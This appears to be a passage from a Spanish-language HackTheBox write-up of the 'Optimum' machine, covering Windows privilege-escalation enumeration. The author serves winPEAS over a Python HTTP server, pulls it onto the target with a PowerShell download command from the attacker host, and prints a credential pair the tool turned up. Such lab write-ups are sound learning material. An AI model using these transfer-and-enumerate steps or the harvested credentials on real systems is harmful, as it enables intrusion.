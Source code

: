 ```bash
                           [24]: KB2977629
                           [25]: KB2981580
                           [26]: KB2987107
                           [27]: KB2989647
                           [28]: KB2998527
                           [29]: KB3000850
                           [30]: KB3003057
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```


A continaución lanzo winpeas a ver si me arroja algo de información valiosa.

Para subirlo a la máquina windows uso el servidor de python.

``python3 -m http.server 8080``

Y desde powershell

```powershell
 iwr -Uri http://10.10.14.3:8080/winPEASx64.exe -OutFile C:\ProgramData\winPEASX64.exe 
 ```

Una vez lo tenemos lo ejecutamos 

Y he encontrado unas credenciales --> kostas:kdeEjDowkS*

![](/assets/images/HTB/Optimum-HackTheBox/credencialeswinpeas.png)

Pero debemos buscar algo más, ya que no tenemos formas de escalar en este momento.

Buscando herramientas que busquen vulnerabilidades en el sistema Windows di con este post:

[https://vk9-sec.com/sherlock-find-missing-windows-patches-for-local-privilege-escalation/](https://vk9-sec.com/sherlock-find-missing-windows-patches-for-local-privilege-escalation/)

Sigo los pasos descargando el repositorio --> [https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock)


1. Ejecutamos el servidor de python

`` python3 -m http.server 8080 ``
